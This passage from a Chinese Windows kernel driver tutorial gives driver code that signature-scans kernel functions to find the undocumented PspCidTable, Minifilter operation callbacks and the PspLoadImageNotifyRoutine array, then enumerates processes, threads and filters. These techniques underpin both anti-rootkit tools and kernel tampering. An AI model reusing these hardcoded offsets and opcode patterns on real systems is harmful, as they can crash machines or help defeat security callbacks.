    DriverObject->DriverUnload = (PDRIVER_UNLOAD)DriverUnload;

    // 指定派遣函数
    DriverObject->MajorFunction[IRP_MJ_CREATE] = dpc_CAC;
    DriverObject->MajorFunction[IRP_MJ_CLOSE] = dpc_CAC;
    DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = myIrpControl;

    // 创建设备
    status = CreateDevice(DriverObject);
    if (!NT_SUCCESS(status))
    {
        return status;
    }

    // 执行枚举
    EnumDpc();

    return STATUS_SUCCESS;
}
```

最终运行枚举程序，你将会看到系统中所有的定时器，与ARK工具对比是一致的。



### 6.5 内核枚举PspCidTable句柄表

在上一篇文章`《内核枚举DpcTimer定时器》`中我们通过枚举特征码的方式找到了`DPC`定时器基址并输出了内核中存在的定时器列表，本章将学习如何通过特征码定位的方式寻找`Windows 10`系统下面的`PspCidTable`内核句柄表地址。

首先引入一段基础概念；
  - 1.在`windows`下所有的资源都是用对象的方式进行管理的`(文件、进程、设备等都是对象)`，当要访问一个对象时，如打开一个文件，系统就会创建一个对象句柄，通过这个句柄可以对这个文件进行各种操作。
  - 2.句柄和对象的联系是通过句柄表来进行的，准确来说一个句柄就是它所对应的对象在句柄表中的索引。
  - 3.通过句柄可以在句柄表中找到对象的指针，通过指针就可以对，对象进行操作。

PspCidTable 就是这样的一种表`(内核句柄表)`，表的内部存放的是`进程EPROCESS`和`线程ETHREAD`的内核对象，并通过`进程PID`和`线程TID`进行索引，ID号以4递增，内核句柄表不属于任何进程，也不连接在系统的句柄表上，通过它可以返回系统的任何对象。

内核句柄表与普通句柄表完全一样，但它与每个进程私有的句柄表有以下不同；

 - 1.PspCidTable 中存放的对象是系统中所有的进程线程对象，其索引就是`PID`和`TID`。
 - 2.PspCidTable 中存放的直接是对象体`EPROCESS和ETHREAD`，而每个进程私有的句柄表则存放的是对象头`OBJECT_HEADER`。
 - 3.PspCidTable 是一个独立的句柄表，而每个进程私有的句柄表以一个双链连接起来。
 - 4.PspCidTable 访问对象时要掩掉低三位，每个进程私有的句柄表是双链连接起来的。

那么在`Windows10`系统中该如何枚举句柄表；

 - 1.首先找到`PsLookupProcessByProcessId`函数地址，该函数是被导出的可以动态拿到。
 - 2.其次在`PsLookupProcessByProcessId`地址中搜索`PspReferenceCidTableEntry`函数。
 - 3.最后在`PspReferenceCidTableEntry`地址中找到`PspCidTable`函数。

首先第一步先要得到`PspCidTable`函数内存地址，输入`dp PspCidTable`即可得到，如果在程序中则是调用`MmGetSystemRoutineAddress`取到。



PspCidTable是一个`HANDLE_TALBE`结构，当新建一个进程时，对应的会在`PspCidTable`存在一个该进程和线程对应的`HANDLE_TABLE_ENTRY`项。在`windows10`中依然采用`动态扩展`的方法，当句柄数少的时候就采用下层表，多的时候才启用中层表或上层表。

接着我们解析`ffffdc88-79605dc0`这个内存地址，执行`dt _HANDLE_TABLE 0xffffdc8879605dc0`得到规范化结构体。



内核句柄表分为三层如下；

 - 下层表：是一个`HANDLE_TABLE_ENTRY`项的索引，整个表共有`256`个元素，每个元素是一个`8个字节`长的`HANDLE_TABLE_ENTRY`项及索引，`HANDLE_TABLE_ENTRY`项中保存着指向对象的指针，下层表可以看成是进程和线程的稠密索引。
 - 中层表：共有`256`个元素，每个元素是`4个字节`长的指向下层表的入口指针及索引，中层表可以看成是进程和线程的稀疏索引。
 - 上层表：共有`256`个元素，每个元素是`4个字节`长的指向中层表的入口指针及索引，上层表可以看成是中层表的稀疏索引。

总结起来一个句柄表有一个上层表，一个上层表最多可以有`256`个中层表的入口指针，每个中层表最多可以有`256`个下层表的入口指针，每个下层表最多可以有`256`个进程和线程对象的指针。`PspCidTable`表可以看成是`HANDLE_TBALE_ENTRY`项的多级索引。

如上图所示`TableCode`是指向句柄表的指针，低二位（二进制）记录句柄表的等级：0（00）表示一级表，1（01）表示二级表，2（10）表示三级表。这里的 `0xffffdc88-7d09b001` 就说名它是一个二级表。



一级表里存放的就是进程和线程对象（加密过的，需要一些计算来解密），二级表里存放的是指向某个一级表的指针，同理三级表存放的是指向二级表的指针。

x64 系统中，每张表的大小是 `0x1000（4096）`，一级表中存放的是 `_handle_table_entry` 结构`（大小 = 16）`，二级表和三级表存放的是指针`（大小 = 8）`。

我们对 `0xffffdc88-7d09b001` 抹去低二位，输入`dp 0xffffdc887d09b000` 输出的结果就是一张二级表，里面存储的就是一级表指针。



继续查看第一张一级表，输入`dp 0xffffdc887962a000`命令，我们知道一级句柄表是根据进程或线程ID来索引的，且以4累加，所以第一行对应`id = 0`，第二行对应`id = 4`。根据尝试，`PID = 4`的进程是`System`。



所以此处的第二行`0xb281de28-3300ffa7`就是加密后的`System`进程的`EPROCESS`结构，对于Win10系统来说解密算法`(value >> 0x10) & 0xfffffffffffffff0`是这样的，我们通过代码计算出来。
```c
#include <Windows.h>
#include <iostream>

int _tmain(int argc, _TCHAR* argv[])
{
    std::cout << "hello lyshark.com" << std::endl;

    ULONG64 ul_recode = 0xb281de283300ffa7;

    ULONG64 ul_decode = (LONG64)ul_recode >> 0x10;
    ul_decode &= 0xfffffffffffffff0;

    std::cout << "解密后地址: " << std::hex << ul_decode << std::endl;
    getchar();

    return 0;
}
```

运行程序得到如下输出，即可知道`System`系统进程解密后的`EPROCESS`结构地址是`0xffffb281de283300`



回到WinDBG调试器，输入命令`dt _EPROCESS 0xffffb281de283300`解析以下这个结构，输出结果是System进程。



理论知识总结已经结束了，接下来就是如何实现枚举进程线程了，枚举流程如下：

 - 1.首先找到`PspCidTable`的地址。
 - 2.然后找到`HANDLE_TBALE`的地址。
 - 3.根据`TableCode`来判断层次结构。
 - 4.遍历层次结构来获取对象地址。
 - 5.判断对象类型是否为进程对象。
 - 6.判断进程是否有效。

这里先来实现获取`PspCidTable`函数的动态地址，代码如下。
```c
#include <ntifs.h>
#include <windef.h>

// 获取 PspCidTable
BOOLEAN get_PspCidTable(ULONG64* tableAddr)
{
    // 获取 PsLookupProcessByProcessId 地址
    UNICODE_STRING uc_funcName;
    RtlInitUnicodeString(&uc_funcName, L"PsLookupProcessByProcessId");
    ULONG64 ul_funcAddr = MmGetSystemRoutineAddress(&uc_funcName);
    if (ul_funcAddr == NULL)
    {
        return FALSE;
    }
    DbgPrint("PsLookupProcessByProcessId addr = %p \n", ul_funcAddr);

    // 前 40 字节有 call（PspReferenceCidTableEntry）
    /*
    0: kd> uf PsLookupProcessByProcessId
        nt!PsLookupProcessByProcessId:
        fffff802`0841cfe0 48895c2418      mov     qword ptr [rsp+18h],rbx
        fffff802`0841cfe5 56              push    rsi
        fffff802`0841cfe6 4883ec20        sub     rsp,20h
        fffff802`0841cfea 48897c2438      mov     qword ptr [rsp+38h],rdi
        fffff802`0841cfef 488bf2          mov     rsi,rdx
        fffff802`0841cff2 65488b3c2588010000 mov   rdi,qword ptr gs:[188h]
        fffff802`0841cffb 66ff8fe6010000  dec     word ptr [rdi+1E6h]
        fffff802`0841d002 b203            mov     dl,3
        fffff802`0841d004 e887000000      call    nt!PspReferenceCidTableEntry (fffff802`0841d090)
        fffff802`0841d009 488bd8          mov     rbx,rax
        fffff802`0841d00c 4885c0          test    rax,rax
        fffff802`0841d00f 7435            je      nt!PsLookupProcessByProcessId+0x66 (fffff802`0841d046)  Branch
    */
    ULONG64 ul_entry = 0;
    for (INT i = 0; i < 100; i++)
    {
        // fffff802`0841d004 e8 87 00 00 00      call    nt!PspReferenceCidTableEntry (fffff802`0841d090)
        if (*(PUCHAR)(ul_funcAddr + i) == 0xe8)
        {
            ul_entry = ul_funcAddr + i;
            break;
        }
    }

    if (ul_entry != 0)
    {
        // 解析 call 地址
        INT i_callCode = *(INT*)(ul_entry + 1);
        DbgPrint("i_callCode = %p \n", i_callCode);
        ULONG64 ul_callJmp = ul_entry + i_callCode + 5;
        DbgPrint("ul_callJmp = %p \n", ul_callJmp);

        // 来到 call（PspReferenceCidTableEntry） 内找 PspCidTable
        /*
        0: kd> uf PspReferenceCidTableEntry
            nt!PspReferenceCidTableEntry+0x115:
            fffff802`0841d1a5 488b0d8473f5ff  mov     rcx,qword ptr [nt!PspCidTable (fffff802`08374530)]
            fffff802`0841d1ac b801000000      mov     eax,1
            fffff802`0841d1b1 f0480fc107      lock xadd qword ptr [rdi],rax
            fffff802`0841d1b6 4883c130        add     rcx,30h
            fffff802`0841d1ba f0830c2400      lock or dword ptr [rsp],0
            fffff802`0841d1bf 48833900        cmp     qword ptr [rcx],0
            fffff802`0841d1c3 0f843fffffff    je      nt!PspReferenceCidTableEntry+0x78 (fffff802`0841d108)  Branch
        */
        for (INT i = 0; i < 0x120; i++)
        {
            // fffff802`0841d1a5 48 8b 0d 84 73 f5 ff  mov     rcx,qword ptr [nt!PspCidTable (fffff802`08374530)]
            if (*(PUCHAR)(ul_callJmp + i) == 0x48 && *(PUCHAR)(ul_callJmp + i + 1) == 0x8b && *(PUCHAR)(ul_callJmp + i + 2) == 0x0d)
            {
                // 解析 mov 地址
                INT i_movCode = *(INT*)(ul_callJmp + i + 3);
                DbgPrint("i_movCode = %p \n", i_movCode);
                ULONG64 ul_movJmp = ul_callJmp + i + i_movCode + 7;
                DbgPrint("ul_movJmp = %p \n", ul_movJmp);

                // 得到 PspCidTable
                *tableAddr = ul_movJmp;
                return TRUE;
            }
        }
    }
    return FALSE;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint(("hello lyshark \n"));

    ULONG64 tableAddr = 0;

    get_PspCidTable(&tableAddr);

    DbgPrint("PspCidTable Address = %p \n", tableAddr);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```
运行后即可得到动态地址，我们可以验证一下是否一致：



继续增加对与三级表的动态解析代码，最终代码如下所示：
```c
#include <ntifs.h>
#include <windef.h>

// 获取 PspCidTable
BOOLEAN get_PspCidTable(ULONG64* tableAddr)
{
    // 获取 PsLookupProcessByProcessId 地址
    UNICODE_STRING uc_funcName;
    RtlInitUnicodeString(&uc_funcName, L"PsLookupProcessByProcessId");
    ULONG64 ul_funcAddr = MmGetSystemRoutineAddress(&uc_funcName);
    if (ul_funcAddr == NULL)
    {
        return FALSE;
    }
    DbgPrint("PsLookupProcessByProcessId addr = %p \n", ul_funcAddr);

    // 前 40 字节有 call（PspReferenceCidTableEntry）
    /*
    0: kd> uf PsLookupProcessByProcessId
        nt!PsLookupProcessByProcessId:
        fffff802`0841cfe0 48895c2418      mov     qword ptr [rsp+18h],rbx
        fffff802`0841cfe5 56              push    rsi
        fffff802`0841cfe6 4883ec20        sub     rsp,20h
        fffff802`0841cfea 48897c2438      mov     qword ptr [rsp+38h],rdi
        fffff802`0841cfef 488bf2          mov     rsi,rdx
        fffff802`0841cff2 65488b3c2588010000 mov   rdi,qword ptr gs:[188h]
        fffff802`0841cffb 66ff8fe6010000  dec     word ptr [rdi+1E6h]
        fffff802`0841d002 b203            mov     dl,3
        fffff802`0841d004 e887000000      call    nt!PspReferenceCidTableEntry (fffff802`0841d090)
        fffff802`0841d009 488bd8          mov     rbx,rax
        fffff802`0841d00c 4885c0          test    rax,rax
        fffff802`0841d00f 7435            je      nt!PsLookupProcessByProcessId+0x66 (fffff802`0841d046)  Branch
    */
    ULONG64 ul_entry = 0;
    for (INT i = 0; i < 100; i++)
    {
        // fffff802`0841d004 e8 87 00 00 00      call    nt!PspReferenceCidTableEntry (fffff802`0841d090)
        if (*(PUCHAR)(ul_funcAddr + i) == 0xe8)
        {
            ul_entry = ul_funcAddr + i;
            break;
        }
    }

    if (ul_entry != 0)
    {
        // 解析 call 地址
        INT i_callCode = *(INT*)(ul_entry + 1);
        DbgPrint("i_callCode = %p \n", i_callCode);
        ULONG64 ul_callJmp = ul_entry + i_callCode + 5;
        DbgPrint("ul_callJmp = %p \n", ul_callJmp);

        // 来到 call（PspReferenceCidTableEntry） 内找 PspCidTable
        /*
        0: kd> uf PspReferenceCidTableEntry
            nt!PspReferenceCidTableEntry+0x115:
            fffff802`0841d1a5 488b0d8473f5ff  mov     rcx,qword ptr [nt!PspCidTable (fffff802`08374530)]
            fffff802`0841d1ac b801000000      mov     eax,1
            fffff802`0841d1b1 f0480fc107      lock xadd qword ptr [rdi],rax
            fffff802`0841d1b6 4883c130        add     rcx,30h
            fffff802`0841d1ba f0830c2400      lock or dword ptr [rsp],0
            fffff802`0841d1bf 48833900        cmp     qword ptr [rcx],0
            fffff802`0841d1c3 0f843fffffff    je      nt!PspReferenceCidTableEntry+0x78 (fffff802`0841d108)  Branch
        */
        for (INT i = 0; i < 0x120; i++)
        {
            // fffff802`0841d1a5 48 8b 0d 84 73 f5 ff  mov     rcx,qword ptr [nt!PspCidTable (fffff802`08374530)]
            if (*(PUCHAR)(ul_callJmp + i) == 0x48 && *(PUCHAR)(ul_callJmp + i + 1) == 0x8b && *(PUCHAR)(ul_callJmp + i + 2) == 0x0d)
            {
                // 解析 mov 地址
                INT i_movCode = *(INT*)(ul_callJmp + i + 3);
                DbgPrint("i_movCode = %p \n", i_movCode);
                ULONG64 ul_movJmp = ul_callJmp + i + i_movCode + 7;
                DbgPrint("ul_movJmp = %p \n", ul_movJmp);

                // 得到 PspCidTable
                *tableAddr = ul_movJmp;
                return TRUE;
            }
        }
    }
    return FALSE;
}

/* 解析一级表
BaseAddr：一级表的基地址
index1：第几个一级表
index2：第几个二级表
*/
VOID parse_table_1(ULONG64 BaseAddr, INT index1, INT index2)
{
    // 遍历一级表（每个表项大小 16 ），表大小 4k，所以遍历 4096/16 = 526 次
    PEPROCESS p_eprocess = NULL;
    PETHREAD p_ethread = NULL;
    INT i_id = 0;
    for (INT i = 0; i < 256; i++)
    {
        if (!MmIsAddressValid((PVOID64)(BaseAddr + i * 16)))
        {
            DbgPrint("非法地址= %p \n", BaseAddr + i * 16);
            continue;
        }

        ULONG64 ul_recode = *(PULONG64)(BaseAddr + i * 16);
        
        // 解密
        ULONG64 ul_decode = (LONG64)ul_recode >> 0x10;
        ul_decode &= 0xfffffffffffffff0;
        
        // 判断是进程还是线程
        i_id = i * 4 + 1024 * index1 + 512 * index2 * 1024;
        if (PsLookupProcessByProcessId(i_id, &p_eprocess) == STATUS_SUCCESS)
        {
            DbgPrint("进程PID: %d | ID: %d | 内存地址: %p | 对象: %p \n", i_id, i, BaseAddr + i * 0x10, ul_decode);
        }
        else if (PsLookupThreadByThreadId(i_id, &p_ethread) == STATUS_SUCCESS)
        {
            DbgPrint("线程TID: %d | ID: %d | 内存地址: %p | 对象: %p \n", i_id, i, BaseAddr + i * 0x10, ul_decode);
        }
    }
}

/* 解析二级表
BaseAddr：二级表基地址
index2：第几个二级表
*/
VOID parse_table_2(ULONG64 BaseAddr, INT index2)
{
    // 遍历二级表（每个表项大小 8）,表大小 4k，所以遍历 4096/8 = 512 次
    ULONG64 ul_baseAddr_1 = 0;
    for (INT i = 0; i < 512; i++)
    {
        if (!MmIsAddressValid((PVOID64)(BaseAddr + i * 8)))
        {
            DbgPrint("非法二级表指针（1）:%p \n", BaseAddr + i * 8);
            continue;
        }
        if (!MmIsAddressValid((PVOID64)*(PULONG64)(BaseAddr + i * 8)))
        {
            DbgPrint("非法二级表指针（2）:%p \n", BaseAddr + i * 8);
            continue;
        }
        ul_baseAddr_1 = *(PULONG64)(BaseAddr + i * 8);
        parse_table_1(ul_baseAddr_1, i, index2);
    }
}

/* 解析三级表
BaseAddr：三级表基地址
*/
VOID parse_table_3(ULONG64 BaseAddr)
{
    // 遍历三级表（每个表项大小 8）,表大小 4k，所以遍历 4096/8 = 512 次
    ULONG64 ul_baseAddr_2 = 0;
    for (INT i = 0; i < 512; i++)
    {
        if (!MmIsAddressValid((PVOID64)(BaseAddr + i * 8)))
        {
            continue;
        }
        if (!MmIsAddressValid((PVOID64)* (PULONG64)(BaseAddr + i * 8)))
        {
            continue;
        }
        ul_baseAddr_2 = *(PULONG64)(BaseAddr + i * 8);
        parse_table_2(ul_baseAddr_2, i);
    }
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint(("hello lyshark.com \n"));

    ULONG64 tableAddr = 0;

    get_PspCidTable(&tableAddr);

    DbgPrint("PspCidTable Address = %p \n", tableAddr);

    // 获取 _HANDLE_TABLE 的 TableCode
    ULONG64 ul_tableCode = *(PULONG64)(((ULONG64)*(PULONG64)tableAddr) + 8);
    DbgPrint("ul_tableCode = %p \n", ul_tableCode);

    // 取低 2位（二级制11 = 3）
    INT i_low2 = ul_tableCode & 3;
    DbgPrint("i_low2 = %X \n", i_low2);

    // 一级表
    if (i_low2 == 0)
    {
        // TableCode 低 2位抹零（二级制11 = 3）
        parse_table_1(ul_tableCode & (~3), 0, 0);
    }
    // 二级表
    else if (i_low2 == 1)
    {
        // TableCode 低 2位抹零（二级制11 = 3）
        parse_table_2(ul_tableCode & (~3), 0);
    }
    // 三级表
    else if (i_low2 == 2)
    {
        // TableCode 低 2位抹零（二级制11 = 3）
        parse_table_3(ul_tableCode & (~3));
    }
    else
    {
        DbgPrint("LyShark提示: 错误,非法! ");
        return FALSE;
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行如上完整代码，我们可以在WinDBG中捕捉到枚举到的进程信息：



线程信息在进程信息的下面，枚举效果如下：



至此文章就结束了，这里多说一句，实际上`ZwQuerySystemInformation`枚举系统句柄时就是走的这条双链，枚举系统进程如果使用的是这个API函数，那么不出意外它也是在这些内核表中做的解析。

### 6.6 内核枚举Minifilter微过滤驱动

Minifilter 是一种文件过滤驱动，该驱动简称为微过滤驱动，相对于传统的`sfilter`文件过滤驱动来说，微过滤驱动编写时更简单，其不需要考虑底层RIP如何派发且无需要考虑兼容性问题，微过滤驱动使用过滤管理器`FilterManager`提供接口，由于提供了管理结构以及一系列管理API函数，所以枚举过滤驱动将变得十分容易。

通常文件驱动过滤是ARK重要功能之一，如下是一款闭源ARK工具的输出效果图。



由于`MiniFilter`提供了`FltEnumerateFilters`函数，所以只需要调用这些函数即可获取到所有的过滤器地址，我们看下微软公开的信息。
```c
NTSTATUS FLTAPI FltEnumerateFilters(
  [out] PFLT_FILTER *FilterList,
  [in]  ULONG       FilterListSize,
  [out] PULONG      NumberFiltersReturned
);
```
此函数需要注意，如果用户将`FilterList`设置为`NULL`则默认是输出当前系统中存在的过滤器数量，而如果传入的是一个内存地址，则将会枚举系统中所有的过滤器信息。

使用`FltEnumerateFilters`这个API，它会返回过滤器对象`FLT_FILTER`的地址，然后根据过滤器对象的地址，加上一个偏移，获得记录过滤器`PreCall、PostCall、IRP`等信息的`PFLT_OPERATION_REGISTRATION`结构体指针。

上文之所以说要加上偏移，是因为`FLT_FILTER`的定义在每个系统都不同，比如`WIN10 X64`中的定义以下样子，这里我们需要记下`+0x1a8 Operations`因为他指向的就是`_FLT_OPERATION_REGISTRATION`结构的偏移地址。
```c
lyshark.com: kd> dt fltmgr!_FLT_FILTER
   +0x000 Base             : _FLT_OBJECT
   +0x030 Frame            : Ptr64 _FLTP_FRAME
   +0x038 Name             : _UNICODE_STRING
   +0x048 DefaultAltitude  : _UNICODE_STRING
   +0x058 Flags            : _FLT_FILTER_FLAGS
   +0x060 DriverObject     : Ptr64 _DRIVER_OBJECT
   +0x068 InstanceList     : _FLT_RESOURCE_LIST_HEAD
   +0x0e8 VerifierExtension : Ptr64 _FLT_VERIFIER_EXTENSION
   +0x0f0 VerifiedFiltersLink : _LIST_ENTRY
   +0x100 FilterUnload     : Ptr64     long 
   +0x108 InstanceSetup    : Ptr64     long 
   +0x110 InstanceQueryTeardown : Ptr64     long 
   +0x118 InstanceTeardownStart : Ptr64     void 
   +0x120 InstanceTeardownComplete : Ptr64     void 
   +0x128 SupportedContextsListHead : Ptr64 _ALLOCATE_CONTEXT_HEADER
   +0x130 SupportedContexts : [7] Ptr64 _ALLOCATE_CONTEXT_HEADER
   +0x168 PreVolumeMount   : Ptr64     _FLT_PREOP_CALLBACK_STATUS 
   +0x170 PostVolumeMount  : Ptr64     _FLT_POSTOP_CALLBACK_STATUS 
   +0x178 GenerateFileName : Ptr64     long 
   +0x180 NormalizeNameComponent : Ptr64     long 
   +0x188 NormalizeNameComponentEx : Ptr64     long 
   +0x190 NormalizeContextCleanup : Ptr64     void 
   +0x198 KtmNotification  : Ptr64     long 
   +0x1a0 SectionNotification : Ptr64     long 
   +0x1a8 Operations       : Ptr64 _FLT_OPERATION_REGISTRATION
   +0x1b0 OldDriverUnload  : Ptr64     void 
   +0x1b8 ActiveOpens      : _FLT_MUTEX_LIST_HEAD
   +0x208 ConnectionList   : _FLT_MUTEX_LIST_HEAD
   +0x258 PortList         : _FLT_MUTEX_LIST_HEAD
   +0x2a8 PortLock         : _EX_PUSH_LOCK
```
解析`FLT_OPERATION_REGISTRATION`结构体，可以看到这就是我们需要枚举的过滤器，只要拿到它输出即可：
```c
lyshark.com: kd> dt fltmgr!_FLT_OPERATION_REGISTRATION
   +0x000 MajorFunction    : UChar
   +0x004 Flags            : Uint4B
   +0x008 PreOperation     : Ptr64     _FLT_PREOP_CALLBACK_STATUS 
   +0x010 PostOperation    : Ptr64     _FLT_POSTOP_CALLBACK_STATUS 
   +0x018 Reserved1        : Ptr64 Void
```
枚举过滤器代码如下所示，需要配置连接器增加`fltMgr.lib`头文件。

 - 配置属性 > 连接器 > 输入> 附加依赖 -> fltMgr.lib
 - 配置属性 > C/C++ > 常规 > 设置 警告等级2级 (警告视为错误关闭)

```c
#include <fltKernel.h>
#include <dontuse.h>
#include <suppress.h>

// 设置默认回调
NTSTATUS DriverDefaultHandle(PDEVICE_OBJECT pDevObj, PIRP pIrp)
{
    NTSTATUS status = STATUS_SUCCESS;
    pIrp->IoStatus.Status = status;
    pIrp->IoStatus.Information = 0;
    IoCompleteRequest(pIrp, IO_NO_INCREMENT);

    return status;
}

VOID DriverUnload(PDRIVER_OBJECT pDriverObject)
{
}

NTSTATUS DriverEntry(PDRIVER_OBJECT pDriverObject, PUNICODE_STRING pRegPath)
{
    DbgPrint("hello lyshark.com \n");

    NTSTATUS status = STATUS_SUCCESS;
    pDriverObject->DriverUnload = DriverUnload;
    for (ULONG i = 0; i < IRP_MJ_MAXIMUM_FUNCTION; i++)
    {
        pDriverObject->MajorFunction[i] = DriverDefaultHandle;
    }

    ULONG ulFilterListSize = 0;
    PFLT_FILTER *ppFilterList = NULL;
    ULONG i = 0;
    LONG lOperationsOffset = 0;
    PFLT_OPERATION_REGISTRATION pFltOperationRegistration = NULL;

    // 获取 Minifilter 过滤器Filter 的数量
    FltEnumerateFilters(NULL, 0, &ulFilterListSize);

    // 申请内存
    ppFilterList = (PFLT_FILTER *)ExAllocatePool(NonPagedPool, ulFilterListSize *sizeof(PFLT_FILTER));
    if (NULL == ppFilterList)
    {
        return FALSE;
    }

    // 获取 Minifilter 中所有过滤器Filter 的信息
    status = FltEnumerateFilters(ppFilterList, ulFilterListSize, &ulFilterListSize);
    if (!NT_SUCCESS(status))
    {
        return FALSE;
    }

    DbgPrint("过滤器数量: %d \n", ulFilterListSize);

    // 获取 PFLT_FILTER 中 Operations 偏移
    lOperationsOffset = 0x1A8;

    // 开始遍历 Minifilter
    __try
    {
        for (i = 0; i < ulFilterListSize; i++)
        {
            // 获取 PFLT_FILTER 中 Operations 成员地址
            pFltOperationRegistration = (PFLT_OPERATION_REGISTRATION)(*(PVOID *)((PUCHAR)ppFilterList[i] + lOperationsOffset));

            __try
            {
                // 同一过滤器下的回调信息
                while (IRP_MJ_OPERATION_END != pFltOperationRegistration->MajorFunction)
                {
                    if (IRP_MJ_MAXIMUM_FUNCTION > pFltOperationRegistration->MajorFunction)
                    {
                        // 显示
                        DbgPrint("Filter: %p | IRP: %d | PreFunc: 0x%p | PostFunc=0x%p \n", ppFilterList[i], pFltOperationRegistration->MajorFunction,
                            pFltOperationRegistration->PreOperation, pFltOperationRegistration->PostOperation);
                    }

                    // 获取下一个消息回调信息
                    pFltOperationRegistration = (PFLT_OPERATION_REGISTRATION)((PUCHAR)pFltOperationRegistration + sizeof(FLT_OPERATION_REGISTRATION));
                }
            }
            __except (EXCEPTION_EXECUTE_HANDLER)
            {
            }
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
    }

    // 释放内存
    ExFreePool(ppFilterList);
    ppFilterList = NULL;

    return status;
}
```

运行代码输出枚举效果如下：



### 6.7 内核枚举LoadImage映像回调

在笔者之前的文章`《内核特征码搜索函数封装》`中我们封装实现了特征码定位功能，本章将继续使用该功能，本次我们需要枚举内核`LoadImage`映像回调，在Win64环境下我们可以设置一个`LoadImage`映像加载通告回调，当有新驱动或者DLL被加载时，回调函数就会被调用从而执行我们自己的回调例程，映像回调也存储在数组里，枚举时从数组中读取值之后，需要进行位运算解密得到地址。

LoadImage映像回调是Windows操作系统提供的一种机制，它允许开发者在加载映像文件（如DLL、EXE等）时拦截并修改映像的加载过程。LoadImage映像回调是通过操作系统提供的ImageLoad事件机制来实现的。

当操作系统加载映像文件时，它会调用LoadImage函数。在LoadImage函数内部，操作系统会触发ImageLoad事件，然后在ImageLoad事件中调用注册的LoadImage映像回调函数。开发者可以在LoadImage映像回调函数中执行自定义的逻辑，例如修改映像文件的内容，或者阻止映像文件的加载。

LoadImage映像回调可以通过Win32 API函数SetImageLoadCallback或者操作系统提供的驱动程序回调函数PsSetLoadImageNotifyRoutine来进行注册。同时，LoadImage映像回调函数需要遵守一定的约束条件，例如必须是非分页代码，不能调用一些内核API函数等。

我们来看一款闭源ARK工具是如何实现的：



如上所述，如果我们需要拿到回调数组那么首先要得到该数组，数组的符号名是`PspLoadImageNotifyRoutine`我们可以在`PsSetLoadImageNotifyRoutineEx`中找到。

第一步使用WinDBG输入`uf PsSetLoadImageNotifyRoutineEx`首先定位到，能够找到`PsSetLoadImageNotifyRoutineEx`这里的两个位置都可以被引用，当然了这个函数可以直接通过`PsSetLoadImageNotifyRoutineEx`函数动态拿到此处不需要我们动态定位。



我们通过获取到`PsSetLoadImageNotifyRoutineEx`函数的内存首地址，然后向下匹配特征码搜索找到`488d0d88e8dbff`并取出`PspLoadImageNotifyRoutine`内存地址，该内存地址就是`LoadImage`映像模块的基址。



如果使用代码去定位这段空间，则你可以这样写，这样即可得到具体特征地址。
```c
#include <ntddk.h>
#include <windef.h>

// 指定内存区域的特征码扫描
PVOID SearchMemory(PVOID pStartAddress, PVOID pEndAddress, PUCHAR pMemoryData, ULONG ulMemoryDataSize)
{
    PVOID pAddress = NULL;
    PUCHAR i = NULL;
    ULONG m = 0;

    // 扫描内存
    for (i = (PUCHAR)pStartAddress; i < (PUCHAR)pEndAddress; i++)
    {
        // 判断特征码
        for (m = 0; m < ulMemoryDataSize; m++)
        {
            if (*(PUCHAR)(i + m) != pMemoryData[m])
            {
                break;
            }
        }
        // 判断是否找到符合特征码的地址
        if (m >= ulMemoryDataSize)
        {
            // 找到特征码位置, 获取紧接着特征码的下一地址
            pAddress = (PVOID)(i + ulMemoryDataSize);
            break;
        }
    }

    return pAddress;
}

// 根据特征码获取 PspLoadImageNotifyRoutine 数组地址
PVOID SearchPspLoadImageNotifyRoutine(PUCHAR pSpecialData, ULONG ulSpecialDataSize)
{
    UNICODE_STRING ustrFuncName;
    PVOID pAddress = NULL;
    LONG lOffset = 0;
    PVOID pPsSetLoadImageNotifyRoutine = NULL;
    PVOID pPspLoadImageNotifyRoutine = NULL;

    // 先获取 PsSetLoadImageNotifyRoutineEx 函数地址
    RtlInitUnicodeString(&ustrFuncName, L"PsSetLoadImageNotifyRoutineEx");
    pPsSetLoadImageNotifyRoutine = MmGetSystemRoutineAddress(&ustrFuncName);
    if (NULL == pPsSetLoadImageNotifyRoutine)
    {
        return pPspLoadImageNotifyRoutine;
    }

    // 查找 PspLoadImageNotifyRoutine  函数地址
    pAddress = SearchMemory(pPsSetLoadImageNotifyRoutine, (PVOID)((PUCHAR)pPsSetLoadImageNotifyRoutine + 0xFF), pSpecialData, ulSpecialDataSize);
    if (NULL == pAddress)
    {
        return pPspLoadImageNotifyRoutine;
    }

    // 先获取偏移, 再计算地址
    lOffset = *(PLONG)pAddress;
    pPspLoadImageNotifyRoutine = (PVOID)((PUCHAR)pAddress + sizeof(LONG) + lOffset);

    return pPspLoadImageNotifyRoutine;
}

VOID UnDriver(PDRIVER_OBJECT Driver)
{
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    PVOID pPspLoadImageNotifyRoutineAddress = NULL;
    RTL_OSVERSIONINFOW osInfo = { 0 };
    UCHAR pSpecialData[50] = { 0 };
    ULONG ulSpecialDataSize = 0;

    // 获取系统版本信息, 判断系统版本
    RtlGetVersion(&osInfo);
    if (10 == osInfo.dwMajorVersion)
    {
        // 48 8d 0d 88 e8 db ff
        // 查找指令 lea rcx,[nt!PspLoadImageNotifyRoutine (fffff804`44313ce0)]
        /*
        nt!PsSetLoadImageNotifyRoutineEx+0x41:
        fffff801`80748a81 488d0dd8d3dbff  lea     rcx,[nt!PspLoadImageNotifyRoutine (fffff801`80505e60)]
        fffff801`80748a88 4533c0          xor     r8d,r8d
        fffff801`80748a8b 488d0cd9        lea     rcx,[rcx+rbx*8]
        fffff801`80748a8f 488bd7          mov     rdx,rdi
        fffff801`80748a92 e80584a3ff      call    nt!ExCompareExchangeCallBack (fffff801`80180e9c)
        fffff801`80748a97 84c0            test    al,al
        fffff801`80748a99 0f849f000000    je      nt!PsSetLoadImageNotifyRoutineEx+0xfe (fffff801`80748b3e)  Branch
        */
